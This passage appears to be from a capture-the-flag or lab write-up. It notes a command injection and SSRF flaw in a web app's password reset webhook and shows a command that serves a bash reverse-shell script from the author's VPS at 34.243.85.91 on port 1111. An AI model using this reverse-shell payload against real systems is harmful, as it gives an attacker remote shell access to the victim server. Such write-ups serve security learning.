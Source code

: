 ![](attachment/4815d4733a21e2e86af23305c08668d5.png)

- The password reset function seems vulnerable to command injection and SSRF, and I can control `webhook` URL

> `./app./classes./reset.class.php`

![](attachment/9b7a8209bef543e303b99447c29f08b9.png)

Host reverse shell on my VPS

```bash
┌──(root㉿kali)-[~]
└─# mkdir www && cd www && echo -e '#!/bin/bash\nbash -c "bash -i >& /dev/tcp/34.243.85.91/1111 0>&1"' > index.html && python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
